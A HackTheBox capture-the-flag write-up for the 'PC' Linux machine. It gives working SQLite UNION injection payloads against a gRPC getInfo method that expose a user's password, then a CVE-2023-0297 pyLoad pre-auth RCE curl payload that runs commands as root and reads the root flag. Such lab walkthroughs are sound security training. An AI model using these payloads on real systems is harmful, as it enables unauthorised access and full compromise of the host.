# PC - HackTheBox - Writeup
Linux, 30 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `50051`.

***User***: Scanning all ports revealed that port `50051` is open. Enumeration confirmed that the service running on this port is `gRPC`. Utilized POSTMAN to send requests and discovered a vulnerability in the `getInfo` method, specifically a SQLite injection. Exploiting this vulnerability allowed to obtain the credentials of the `sau` user.

***Root***: During the network analysis, a thorough examination using the netstat command revealed the presence of a local port `8000` which was identified as the hosting point for `pyLoad`. Through the establishment of a secure tunnel to this port, an exploit known as `CVE-2023-0297` was employed to successfully gain remote code execution (RCE) privileges with root access.




## PC Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ nmap -sSV -p- nmap/PC 10.129.227.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-21 21:16 IDT
Nmap scan report for 10.129.227.136
Host is up (0.13s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
50051/tcp open  unknown syn-ack ttl 63

```

Upon examining port `50051` using the nc command and transmitting the character `A`, the subsequent response was as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ nc -vv 10.129.227.136 50051
10.129.227.136: inverse host lookup failed: Unknown host
(UNKNOWN) [10.129.227.136] 50051 (?) open
?��?�� A
 sent 1, rcvd 46
```

Upon establishing a new connection and allowing some time to elapse, we encountered the following error:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ nc -vv 10.129.227.136 50051
10.129.227.136: inverse host lookup failed: Unknown host
(UNKNOWN) [10.129.227.136] 50051 (?) open
(UNKNOWN) [10.129.227.136] 50051 (?) open
?��?�� ?@Did not receive HTTP/2 settings before handshake timeout sent 0, rcvd 119
```

The error message observed, `Did not receive HTTP/2 settings before handshake timeout,` can be found documented on the following page: https://github.com/grpc/grpc/blob/master/src/core/ext/transport/chttp2/server/chttp2_server.cc.

Based on the error message and the provided link, it can be inferred that the service in question is based on [gRPC](https://github.com/grpc/grpc). gRPC is a contemporary, open-source RPC framework known for its high performance, designed to facilitate remote procedure calls across various platforms.

To interact with this service, we can utilize [grpc-client-cli](https://github.com/vadimi/grpc-client-cli). This tool provides a command-line interface specifically designed for communicating with gRPC-based services:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ grpc-client-cli 10.129.227.136:50051
? Choose a service:  [Use arrows to move, type to filter]
  grpc.reflection.v1alpha.ServerReflection
→ SimpleApp
```

Alternatively, we can also employ [Postman](https://learning.postman.com/docs/sending-requests/grpc/grpc-request-interface/) for interacting with the service. Postman offers the capability to create new gRPC requests, providing a user-friendly interface to send requests and receive responses:



For the server URL, enter `10.129.227.136:50051`. Next, select the `RegisterUser` method and click on `Use Example Message`. Finally, click on `Invoke` to send the gRPC request:



Upon sending the gRPC request, we received a response:
```json
{
    "message": "Account created for user evyatar9!"
}
```

Now, let's proceed with the login process using our credentials:



After attempting to log in with the provided credentials, we received a response:
```json
{
    "message": "Your id is 776."
}
```

By navigating to the `Trailers` tab, we discovered the presence of the following `token`:



Next, we will invoke the `getInfo` method.:



Upon invoking the `getInfo` method, an error related to the token is encountered. To resolve this issue, we need to include an authorization header in the request using our token:



If we resend the message with the following payload, we can observe the outcome:
```json
{
    "id": "1;1"
}
```

The subsequent error message suggests that it pertains to the `SQLite` database:



By submitting the following injection query:
```json
{
    "id": "93 UNION SELECT tbl_name FROM sqlite_master;"
}
```

We can observe the results:
```json
{
    "message": "accounts"
}
```

To retrieve the usernames from the `accounts` table, we can use the following query:
```json
{
    "id": "93 UNION SELECT username FROM accounts where username!='admin';"
}
```

After executing the query, we received the response containing the username retrieved from the `accounts` table:
```json
{
    "message": "sau"
}
```

By executing the following query, we can obtain the password of the `sau` user:
```json
{
    "id": "93 UNION SELECT password FROM accounts where username='sau';"
}
```

we successfully retrieved the password for the `sau` user:
```json
{
    "message": "HereIsYourPassWord1431"
}
```

The password for the `sau` user has been obtained, which is `HereIsYourPassWord1431`. We can now utilize this password to establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ ssh sau@10.129.227.136
sau@10.129.227.136's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.14
sau@pc:~$ cat user.txt
7bddf9229daea5461e6b1d176c3c13ee
```

And we get the user flag `7bddf9229daea5461e6b1d176c3c13ee`

### Root


Upon executing the command `netstat -ant`, it is apparent that the target machine is actively listening on port `8000`:
```console
sau@pc:~$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:57204         127.0.0.1:8000          TIME_WAIT  
tcp        0    352 10.129.227.136:22       10.10.14.138:41730      ESTABLISHED
tcp        0      0 10.129.227.136:22       10.10.14.138:60478      ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::50051                :::*                    LISTEN     
tcp6       0      0 10.129.227.136:50051    10.10.14.138:42716      ESTABLISHED
tcp6       0      0 10.129.227.136:50051    10.10.14.138:51468      ESTABLISHED
```

To establish an SSH tunnel to port `8000`, you can utilize the following command.:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ ssh -L 8000:127.0.0.1:8000 sau@10.129.227.136 -N
sau@10.129.227.136's password: 
```

Upon navigating to http://127.0.0.1:8000/, the following page is displayed:




As observed, the webpage at http://127.0.0.1:8000/ corresponds to [pyLoad](https://github.com/pyload/pyload), an open-source Download Manager.

To exploit a vulnerability in `pyLoad`, specifically the CVE-2023-0297 Pre-auth RCE, you can utilize the following URL: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad.

To exploit the CVE-2023-0297 Pre-auth RCE vulnerability in pyLoad, we can follow the payload and instructions provided in the repository:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Upon successful exploitation, it appears that a file named `/tmp/pwnd` has been created with `root` as the owner:
```console
sau@pc:/opt/app$ ls -ltra /tmp/
total 56
drwxr-xr-x 21 root root 4096 Apr 27 15:23 ..
drwxrwxrwt  2 root root 4096 May 21 11:48 .font-unix
drwxrwxrwt  2 root root 4096 May 21 11:48 .XIM-unix
drwxrwxrwt  2 root root 4096 May 21 11:48 .X11-unix
drwxrwxrwt  2 root root 4096 May 21 11:48 .Test-unix
drwxrwxrwt  2 root root 4096 May 21 11:48 .ICE-unix
drwx------  3 root root 4096 May 21 11:48 systemd-private-125fdbf1889c4c50ab92b82b4086f8d8-systemd-logind.service-0bgd1e
drwx------  3 root root 4096 May 21 11:48 systemd-private-125fdbf1889c4c50ab92b82b4086f8d8-ModemManager.service-lEIZcj
drwx------  3 root root 4096 May 21 11:48 systemd-private-125fdbf1889c4c50ab92b82b4086f8d8-systemd-resolved.service-lu7Sug
drwx------  3 root root 4096 May 21 11:48 snap-private-tmp
drwx------  2 root root 4096 May 21 11:48 tmpgx44yc0k
drwxr-xr-x  4 root root 4096 May 21 11:48 pyLoad
drwx------  2 root root 4096 May 21 11:49 vmware-root_736-2991268455
-rw-r--r--  1 root root    0 May 21 21:24 pwnd
drwxrwxrwt 14 root root 4096 May 21 21:24 .
```

By sending the following request, we can obtain the root flag:
```console
┌─[evyatar9@parrot]─[/hackthebox/PC]
└──╼ $ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"cat%20/root/root.txt%20>%20/tmp/flag\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 21 May 2023 21:35:58 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```

Print the flag:
```console
sau@pc:~$ ls -ltra /tmp/flag 
-rw-r--r-- 1 root root 33 May 21 21:35 /tmp/flag
sau@pc:~$ cat /tmp/flag 
015c18b21d40903ff120edd4ded9b639
```

And we get the root flag `015c18b21d40903ff120edd4ded9b639`.
